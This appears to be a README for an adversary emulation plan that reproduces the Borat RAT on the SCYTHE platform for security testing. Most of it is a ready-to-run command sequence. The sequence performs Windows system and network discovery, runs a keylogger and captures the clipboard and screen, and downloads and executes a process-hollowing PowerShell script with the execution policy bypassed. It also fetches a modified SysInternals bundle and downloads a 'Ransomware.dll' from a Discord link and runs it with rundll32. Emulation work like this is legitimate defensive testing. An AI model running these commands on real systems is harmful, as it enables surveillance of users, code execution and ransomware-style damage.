 # Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

## Manual Adversary Emulation with SCYTHE
Start a SCYTHE campaign and manually execute the below commands:
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
delay --time 300
keylogger --current
keylogger --stop
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
delay --time 180
clipboard
printscr --window Desktop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src "https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Start-Hollow.ps1" --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
upsh --cmd "Invoke-Command -ScriptBlock { Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "$env:TEMP\Modified-SysInternalsSuite.zip"; Expand-Archive $env:TEMP\Modified-SysInternalsSuite.zip $env:TEMP\sysinternals -Force; Remove-Item $env:TEMP\Modified-SysInternalsSuite.zip -Force}"
upsh --cmd "if (Test-Path $env:TEMP\SysInternals) {echo 1} else {echo 0}"
upsh --cmd "Invoke-Command -ScriptBlock {Set-Location -path "$env:TEMP\Sysinternals";; ./accesschk.exe -accepteula .;}"
run powershell del $env:TEMP\Sysinternals -Force -Recurse -ErrorAction Ignore
run powershell.exe del $env:userprofile/Start-Hollow.ps1
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/960944365335904286/Ransomware.dll" --dest %USERPROFILE%/Desktop/Ransomware.dll
run cmd /c cd %USERPROFILE%\Desktop & rundll32 Ransomware.dll,DropNote
run powershell del $env:USERPROFILE\Desktop\Ransomware.dll -Force -ErrorAction Ignore
controller --shutdown
```